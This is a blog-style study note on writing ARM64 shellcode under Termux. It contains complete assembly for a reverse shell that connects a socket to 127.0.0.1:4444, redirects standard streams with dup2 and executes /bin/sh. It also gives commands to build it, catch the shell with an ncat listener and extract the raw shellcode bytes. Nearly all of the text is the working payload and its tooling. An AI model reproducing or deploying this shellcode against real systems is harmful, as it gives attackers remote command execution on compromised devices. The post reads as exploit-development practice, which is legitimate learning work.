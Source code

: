 ```yaml
---
comments: true
layout: single
title: shellcode-termux-arm
date: 2025-01-26
classes: wide
header:
  teaser: /assets/images/
  teaser_home_page: true
categories:
  - notas 
tags:
  - notas 
  - termux
---
```





```sh
bat $PREFIX/include/asm-generic/unistd.h 
```


```asm
.global _start

.section .text
_start:
    // set the frame pointer
    mov fp, sp

    // clear required registers
    eor x0, x0, x0
    eor x1, x1, x1
    eor x2, x2, x2

    // create sockaddr_in struct
    sub sp, sp, #32      // Reservar espacio en la pila (32 bytes para alineación)
    str xzr, [sp, #16]   // 8 bytes de padding
    str xzr, [sp, #8]    // 8 bytes más de padding

    // Configurar sin_family (AF_INET = 2)
    mov x1, #0x02        // AF_INET
    strh w1, [sp, #0]    // Almacenar sin_family en el offset 0

    // Configurar sin_port (4444 en orden de red)
    mov x1, #0x115c      // Puerto 4444 en orden de host (big-endian)
    rev16 w1, w1         // Convertir a orden de red (big-endian)
    strh w1, [sp, #2]    // Almacenar sin_port en el offset 2

    // Configurar sin_addr (127.0.0.1 en orden de red)
    ldr x1, =0x0100007f  // 127.0.0.1 en orden de red (big-endian)
    str w1, [sp, #4]     // Almacenar sin_addr en el offset 4

    // call socket(domain, type, protocol)
    mov x0, #2           // AF_INET
    mov x1, #1           // SOCK_STREAM
    mov x2, #0           // protocol
    mov x8, #198         // socket syscall number (198 for ARM64)
    svc #0
    cmp x0, #0           // Verificar si socket() falló
    b.lt _exit           // Si falló, salir
    mov x4, x0           // x4: socket file descriptor

    // call connect(sockfd, sockaddr, socklen_t)
    mov x0, x4           // sockfd
    mov x1, sp           // sockaddr
    mov x2, #16          // socklen_t
    mov x8, #203         // connect syscall number (203 for ARM64)
    svc #0
    cmp x0, #0           // Verificar si connect() falló
    b.lt _exit           // Si falló, salir

    // call dup2 to redirect STDIN, STDOUT and STDERR
    mov x5, #3           // counter for STDIN, STDOUT, STDERR
dup_loop:
    mov x0, x4           // sockfd
    sub x5, x5, #1       // decrement counter
    mov x1, x5           // newfd
    mov x8, #24          // dup2 syscall number (24 for ARM64)
    svc #0
    cmp x5, #0
    b.ne dup_loop

    // spawn /bin/sh using execve
    // x1 and x2 are 0 at this point
    eor x0, x0, x0
    eor x1, x1, x1
    eor x2, x2, x2
    sub sp, sp, #16       // Reservar espacio en la pila (16 bytes para alineación)
    str xzr, [sp, #8]    // Push null terminator
    ldr x0, =0x68732f2f6e69622f  // "/bin//sh" in little-endian
    str x0, [sp, #0]     // Push "/bin//sh"
    mov x0, sp           // [x0]: pointer to "/bin//sh"
    mov x8, #221         // execve syscall number (221 for ARM64)
    svc #0

_exit:
    // Exit the program
    mov x8, #93          // exit syscall number (93 for ARM64)
    svc #0 
```

## Compilation 

```sh
as -o shellcode.o shellcode.s
ld -o shellcode shellcode.o
```

### Comprobación 

```sh
ncat -lvp 4444
```

Then  

```sh
./shellcode 
```
 
### Optener el código magina

```sh
objcopy -O binary shellcode shellcode.bin    #  extraemos los bytecode 
```

```sh
hexdump -v -e '"\\" 1/1 "x%02x"' shellcode.bin; echo    # extraemos byte code de binario
```

El resultado se compara con el resultado de la 2 columna:

```sh
objdump -d shellcode
```


{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}


